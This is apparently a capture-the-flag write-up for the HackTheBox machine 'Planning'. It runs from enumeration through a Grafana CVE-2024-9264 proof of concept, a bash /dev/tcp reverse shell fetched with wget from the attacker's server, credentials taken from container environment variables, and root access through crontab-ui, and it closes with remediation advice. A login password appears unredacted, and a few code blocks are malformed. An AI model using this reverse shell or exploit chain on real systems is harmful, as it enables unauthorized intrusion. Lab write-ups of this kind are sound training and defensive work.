

# {{ page.title }}

## Table of Contents

 - <a href="#{{ content | downcase | replace: ' ', '-' }}">{{ content  }}</a> 
 


## {{ page.table_of_contents[0] }} <a name="{{ page.table_of_contents[0] | downcase | replace: ' ', '-' }}"></a>
**Scope**

IP Addresses:

- {{ ip }}



Initial Credentials:
- {{ page.initial_creds }}


The box presents with only two open ports, exposing SSH and a webpage. The webpage is an educational site with little to no functionality, so naturally we enumerate further discovering a Grafana instance. This is where the initial credentials come in handy, as they provide us access to the grafana login page. We can see the Grafana version is one that is vulnerable to file inclusion and most importantly RCE (remote code execution). Leveraging this CVE, we are able to get a reverse shell into the Docker container that is hosting Grafana. There we can see environment variables that are set that provide us with credentials to SSH into the primary box. Once on the box further enumeration is required, we notice an open port on 8000 and a crontab.db in the opt directory. This reveals to be a crontab-ui instance and the crontab.db contains a password we can use to login to the instance. This crontab-ui instance is run as root and allows us to set up arbitrary cron-jobs so any desired method at this point, will allow you to root the box.

## {{ page.table_of_contents[1] }} <a name="{{ page.table_of_contents[0] | downcase | replace: ' ', '-' }}"></a>

Every box always starts with a classic nmap scan
```bash
nmap -sCV -oA nmap/planning -p- -vv $BOX_IP
<snip>
22/tcp    open     ssh           syn-ack     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http          syn-ack     nginx 1.24.0 (Ubuntu)
</snip>
```

We see two open ports, naturally we tackle the nginx webpage first.
Viewing the webpage, brings us to `http://planning.htb`
So we have to add this to our hosts file
```bash
sudo sed -i "2a$BOX_IP  planning.htb" /etc/hosts
```

This allows us to view the webpage.


I tried everything I could on this, finding any page that allows a post or some form of parameter ?= injection.
The only endpoints that had user-entry POST requests by default, where `/detail.php` and `/contact.php`
You would think the search functionality would have one, but that actually does nothing. And the two endpoints I noted also had no noticeable change in editing requests. 
This seems to be a deadend of a webpage on the surface.

So we enumerate:
```bash
feroxbuster -u http://planning.htb -w /seclists/web-big.txt

200      GET        1l       38w     2303c http://planning.htb/lib/easing/easing.min.js
200      GET        6l       64w     2936c http://planning.htb/lib/owlcarous../../../assets/owl.carousel.min.css
200      GET       11l       56w     2406c http://planning.htb/lib/counterup/counterup.min.js
200      GET        7l      158w     9028c http://planning.htb/lib/waypoints/waypoints.min.js
200      GET        8l       58w     5269c http://planning.htb/img/testimonial-1.jpg
<snip>
...
</snip>
200      GET      173l      851w    64663c http://planning.htb/img/courses-1.jpg
200      GET      146l      790w    75209c http://planning.htb/img/feature.jpg
200      GET      194l      674w    10229c http://planning.htb/course.php
200      GET      230l      874w    12727c http://planning.htb/about.php
200      GET      201l      663w    10632c http://planning.htb/contact.php
200      GET      220l      880w    13006c http://planning.htb/detail.php
```

This didn't really result in anything useful either, not even a login page to make use of the default credentials. There obiviously has to be something so let's try vhosts.

```bash
gobuster vhost -u http://planning.htb -w /seclists/Discovery/DNS/fierce-hostlist.txt --apppend-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        fierce-hostlist.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
...
```

That ending with nothing as well....but wordlists are usually a problem.
```bash
gobuster vhost -u http://planning.htb -w /seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
...
```

And another no hit.

And honestly, at this point I started questioning if the web page was actually a dead end and was a good leaning point for me. I did end up going back to the webpage to try a few other things and even tried another wordlist to try and find a login page for it. Only to come back once again and use the bitquark wordlist.

```bash
gobuster vhost -u http://planning.htb -w /seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]

```

And we have a hit.
This made me question my methodology a bit and question how many word lists I potentially would have to sift through.

In seclists there's 22 files in the DNS category and only 9 of such have grafana in them

```bash
rg "^grafana$"
services-names.txt
239:grafana

subdomains-spanish.txt
2556:grafana

namelist.txt
56198:grafana

bitquark-subdomains-top100000.txt
24093:grafana

combined_subdomains.txt
212052:grafana

dns-Jhaddix.txt
669080:grafana

bug-bounty-program-subdomains-trickest-inventory.txt
2904:grafana

n0kovo_subdomains.txt
997:grafana

FUZZSUBS_CYFARE_1.txt
28031:grafana
```

And with less than half of them having hit in, I don't know if I wanted that to happen again, so I think we should improve our wordlists...
The service-names.txt has the smallest footprint so it would be worth having this appended to your go-to wordlist, or even all of them.
```bash
for i in $(ls | grep -vE 'services-names|README'); do cat ${i} service-names.txt | sort -u | shuf > ${i}_updated; done
```

With that out of the way, let's observe this grafana page, adding it our hosts file.
```bash
sudo sed -iE'/planning.htb/s/([a-z]*\.htb)/\1 grafana.\1/' /etc/hosts
```

We see a grafana login page and because we were given some credentials, we'll try those...


And we get logged in.
The first step whenever we're on a service is to try and find a version for it so we can get our bearings and see if there's any obvious exploits for it.


So we have a version and a service which brings us to internet searching: "grafana v 11.0 exploit"

Which brought me to:
[Grafana CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264/)

and this PoC, which there are others, but this one was written with what seems to be a better understanding of the CVE.
[Proof-of-Concept](https://github.com/nollium/CVE-2024-9264)

Whether or not this is vulnerable we can't really see from any of the information presented on the grafana page. We just have to run it and see if it works.

```bash
git clone 'https://github.com/nollium/CVE-2024-9264'
cd CVE-2024-9264
uv venv; .venv/bin/activate; uv pip install -r requirements.txt
uv run CVE-2024-9264.py http://grafana.planning.htb -u admin -p $BOX_PASS -f '/etc/passwd'
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<snip>
...
</snip>
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

Perfect, it's vulnerable.
Now, if you attempt to get a reverse shell with this particular CVE, you'll notice your attempts will fail, because for the -c option, it redirects the output specifically to the grafana output and you get fd errors, attempting to utilize typical reverse shell payloads in the query.
We can edit the code and have it all done in there, which would require constructing another query to write to a file and then running it, but it's a little easier to just upload the reverse shell payload and execute it.

```bash
nc -lvnp 9001 &
echo "bash -i /dev/tcp/$TUNIP/$TUNPORT 0>&1" > rev.sh
python -m http.server &
uv run CVE-2024-9264.py http://grafana.planning.htb -u admin -p $BOX_PASS -c "wget http://$TUNIP:$TUNPORT/rev.sh"
# Knock off the web server
kill %2
uv run CVE-2024-9264.py http://grafana.planning.htb -u admin -p $BOX_PASS -c "bash rev.sh"
#grab our reverse shell
fg
``
root@7ce659d667d7:~#
```

We have our shell and with a hostname that only a mother could love, it looks like we're likely on a docker container. There are a few other notable things that hint at this as well.
Typically on actual user systems, you'd start a master process like `systemd` or `init` to mediate background processes and such. You can see this on your own system:
```bash
# On my system, using systemd
cat /proc/1/cmdline
/usr/lib/systemd/systemd--system--deserialize=83
# On the container
cat /proc/1/cmdline
grafanaserver--homepath=/usr/share/grafana--config=/etc/grafana/grafana.ini--packaging=dockercfg:default.log.mode=consolecfg:default.paths.data=/var/lib/grafanacfg:default.paths.logs=/var/log/grafanacfg:default.paths.plugins=/var/lib/grafana/pluginscfg:default.paths.provisioning=/etc/grafana/provisioning

```
The first process, was simply to run grafana, the kind of specificity that a container is perfect for.

And something that helps us verify 100% that the exploit was valid, looking at all of the processes:
```bash
root@7ce659d667d7:~# ps aux
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.1  5.8 1603200 110692 ?      Ssl  May17   2:51 grafana server --homepath=/usr/share/grafana --config=/etc/grafana/grafana.ini --packaging=docker cfg:default.log.mode=console cfg:default.paths.data=/var/lib/grafana cfg:default.paths.logs=/var/log/grafana cfg:default.paths.plugins=/var/lib/grafana/plugins cfg:default.paths.provisioning=/etc/grafana/provisioning
root         465  0.0  1.1 348576 22784 ?        Sl   18:49   0:00 /usr/local/bin/duckdb
root         473  0.0  0.1   4364  2944 ?        S    18:49   0:00 bash rev.sh
root         484  0.0  0.1   7064  2944 ?        R    19:05   0:00 ps aux

```

duckDB is definitely installed and you can see there's only 2 processes running that...aren't related to our actions.  There's apparently a way to check via cgroups `cat /proc/1/cgroup` however, the presence of anything obviously docker isn't there. So this was enough for me to verify.

If you're familiar with containers, one of the things you do, typically is pass environment variables for them to have access to API keys, database credentials, or anything sensitive that you don't typically want in just plain-text. So we stick them in plain text as arguments to the container, because we're obviously security conscious.
So let's take a look.
```bash
root@7ce659d667d7:~# env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTec[--REDACTED---]
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

And there's an admin user and a password. So perhaps we should try with the next open port?


## {{ page.table_of_contents[2] }} <a name="{{ page.table_of_contents[0] | downcase | replace: ' ', '-' }}"></a>

```bash
ssh enzo@planning.htb
enzo@planning:~$ ls
user.txt
```

This gives us our initial foothold, now it's time to search for our way around. 
There's no `sudo` privileges, which is always the easiest first thing to check.

We should verify that this is indeed the box that has the grafana instance hosted on it. Grafana has a default port of 3000

```bash
enzo@planning:~$ ss -tulpn
Netid      State       Recv-Q      Send-Q           Local Address:Port            Peer Address:Port      Process
udp        UNCONN      0           0                   127.0.0.54:53                   0.0.0.0:*
udp        UNCONN      0           0                127.0.0.53%lo:53                   0.0.0.0:*
tcp        LISTEN      0           4096                127.0.0.54:53                   0.0.0.0:*
tcp        LISTEN      0           4096             127.0.0.53%lo:53                   0.0.0.0:*
tcp        LISTEN      0           4096                 127.0.0.1:3000                 0.0.0.0:*
tcp        LISTEN      0           511                  127.0.0.1:8000                 0.0.0.0:*
tcp        LISTEN      0           151                  127.0.0.1:3306                 0.0.0.0:*
tcp        LISTEN      0           4096                 127.0.0.1:43183                0.0.0.0:*
tcp        LISTEN      0           511                    0.0.0.0:80                   0.0.0.0:*
tcp        LISTEN      0           70                   127.0.0.1:33060                0.0.0.0:*
tcp        LISTEN      0           4096                         *:22                         *:*
```

It looks like 3000 is there, but we also have 8000, 3306 and 33060.
3306/0 is MySQL, so we can try and find any credentials for that, however there wasn't any website activity or even grafana activity that would indicate this would even be used. So this is lower on the potential list, so far.

What is port 8000 though? I'm not a huge fan of trying to grep the entire file system for a simple 8000, especially when I have no bearing as to what it could be surrounded by, a lot of false positives.
```bash

enzo@planning:~$ curl -I http://localhost:8000
HTTP/1.1 401 Unauthorized
X-Powered-By: Express
WWW-Authenticate: Basic realm="Restricted Area"
Content-Type: text/html; charset=utf-8
Content-Length: 0
ETag: W/"0-2jmj7l5rSw0yVb/vlWAYkK/YBwk"
Date: Sun, 18 May 2025 20:58:33 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

We see it's powered by `Express` which is typical of ExpressJS, a node framework. This would imply we can look for node somewhere on the  computer.

```bash
find / -iname *node* 2>/dev/null
<snip>
...
</snip>
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:01/PNP0A05:00/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:01/PNP0103:00/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:8d/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:cf/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:bf/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:af/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:8b/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:cd/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/PNP0A03:00/device:bd/physical_node
/sys/devices/LNXSYSTM:00/LNXSYBUS:00/LNXCPU:00/physical_node
/sys/fs/ext4/sda2/inode_goal
/sys/fs/ext4/sda2/inode_readahead_blks
/sys/fs/ext4/dm-0/inode_goal
/sys/fs/ext4/dm-0/inode_readahead_blks
/sys/bus/node
/sys/bus/node/devices/node0
/sys/module/srcutree/parameters/srcu_max_nodelay
/sys/module/srcutree/parameters/srcu_max_nodelay_phase
/sys/module/dm_mod/parameters/dm_numa_node
/usr/lib/python3/dist-packages/docker/models/nodes.py
/usr/lib/python3/dist-packages/docker/models/__pycache__/nodes.cpython-312.pyc
/usr/lib/python3/dist-packages/yaml/nodes.py
/usr/lib/python3/dist-packages/yaml/__pycache__/nodes.cpython-312.pyc
/usr/lib/python3/dist-packages/sos/collector/sosnode.py
/usr/lib/python3/dist-packages/sos/collector/__pycache__/sosnode.cpython-312.pyc
/usr/lib/python3/dist-packages/sos/report/plugins/__pycache__/ovirt_node.cpython-312.pyc
/usr/lib/node_modules
/usr/lib/node_modules/corepack/shims/nodewin
/usr/lib/node_modules/crontab-ui/node_modules
/usr/lib/node_modules/crontab-ui/node_modules/debug/node.js
/usr/lib/node_modules/crontab-ui/node_modules/debug/src/node.js
/usr/lib/node_modules/crontab-ui/node_modules/basic-auth/node_modules
/usr/lib/node_modules/crontab-ui/node_modules/nodemailer
/usr/lib/node_modules/crontab-ui/node_modules/nodemailer/lib/mime-node
/usr/lib/node_modules/crontab-ui/node_modules/nodemailer/lib/nodemailer.js
/usr/lib/node_modules/crontab-ui/node_modules/iconv-lite/lib/extend-node.js
/usr/lib/node_modules/crontab-ui/node_modules/luxon/build/node
/usr/lib/node_modules/crontab-ui/node_modules/nedb/node_modules
```


We have a folder of node modules, so I can at least narrow down my search of 8000.

```bash
enzo@planning:~$ find /usr/lib/node_modules/ -type f -exec grep -il '8000' {} \; 2>/dev/null
/usr/lib/node_modules/crontab-ui/README.md
/usr/lib/node_modules/crontab-ui/public/css/bootstrap.min.css
/usr/lib/node_modules/crontab-ui/docker-compose.yml
/usr/lib/node_modules/crontab-ui/app.js
/usr/lib/node_modules/crontab-ui/Dockerfile
/usr/lib/node_modules/crontab-ui/node_modules/side-channel/CHANGELOG.md
/usr/lib/node_modules/crontab-ui/node_modules/destroy/package.json
/usr/lib/node_modules/crontab-ui/node_modules/send/node_modules/ms/readme.md
/usr/lib/node_modules/crontab-ui/node_modules/body-parser/package.json
/usr/lib/node_modules/crontab-ui/node_modules/ms/readme.md
/usr/lib/node_modules/crontab-ui/node_modules/moment/CHANGELOG.md
/usr/lib/node_modules/crontab-ui/node_modules/busboy/README.md
/usr/lib/node_modules/crontab-ui/README/nginx.md
```

And there's a Dockerfile for crontab-ui.

I had no idea what crontab-ui was, but I'm guessing that it's related to crontabs

However reading the README.md kept in that folder, does verify you can use basic auth, which is what we saw we needed for the service and there's database file, likely located in some folder called crontabs

```

You can also build it yourself if you want to customize, like this:
    `bash
    git clone https://github.com/alseambusher/crontab-ui.git
    cd crontab-ui
    docker build -t alseambusher/crontab-ui .
    docker run -d -p 8000:8000 alseambusher/crontab-ui
    `

If you want to use it with authentication, You can pass `BASIC_AUTH_USER` and `BASIC_AUTH_PWD` as env variables
    `bash
    docker run -e BASIC_AUTH_USER=user -e BASIC_AUTH_PWD=SecretPassword -d -p 8000:8000 alseambusher/crontab-ui

`

You can also mount a folder to store the db and logs.
   `bash
    mkdir -p crontabs/logs
    docker run --mount type=bind,source="$(pwd)"/crontabs/,target=/crontab-ui/crontabs/ -d -p 8000:8000 alseambusher/crontab-ui
```


So, search for that....

```bash
enzo@planning:/$ find / -iname *crontabs* 2>/dev/null
/var/spool/cron/crontabs
/usr/lib/node_modules/crontab-ui/crontabs
/opt/crontabs


enzo@planning:/$ ls /opt/crontabs
crontab.db


enzo@planning:/$ cat /opt/crontabs/crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw[--REDACTED--] /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```


We have what looks like to be a json file of some cronjobs.
In the first entry there's a backup with a zip password.
I searched for the backup itself but, they do not exist on the system so this password may be useful somewhere else.

I'll port forward the service so I can easily use my browser:

```bash
# ~C
enzo@planning:/$
ssh> -L 8000:localhost:8000
Forwarding port.
```





Why did I choose root? Well it was the first one I tried that worked. You just guess these things sometimes.


## {{ page.table_of_contents[3] }} <a name="{{ page.table_of_contents[3] | downcase | replace: ' ', '-' }}"></a>

There's a few ways to do this once we've reached this point, since we have command execution over everything as root via crontab.

copy root to a different directory and change the permissions, find the ssh key and login that way.
Or one of my favorites, is modifying the /etc/passwd to allow a simple su.


and to fix our modification;
```bash
enzo@planning:/$ su
root@planning:/# sed -i '/root/s/::/:x:/' /etc/passwd
```


## {{ page.table_of_contents[4] }} <a name="{{ page.table_of_contents[4] | downcase | replace: ' ', '-' }}"></a>

So how would we have fixed this? 

#### Patch Grafana
The version we exploited is v.11.0, the current version is v.12.0 and we could at the very least patch the security updates or simply remove DuckDB as a query agent.

#### Environment Variables
On the second end of the exploitation we could have remediated this by simply using a different password or username/password combination for the grafana security environment. [Password reuse](https://blog.cloudflare.com/password-reuse-rampant-half-user-logins-compromised/) is a rampant problem somehow even now with password managers.
The other option would be to just have docker retrieve the desired secrets at runtime and not have them specifically in the environment, this would require a bigger code-overhaul for someone probably just running grafana though.

#### Excess permissions
Why exactly could we read the crontab.db file in /opt/crontabs?
This seems unnecessary for any person to see, especially if you're going to include sensitive data.
`chmod 600` and call it a day.


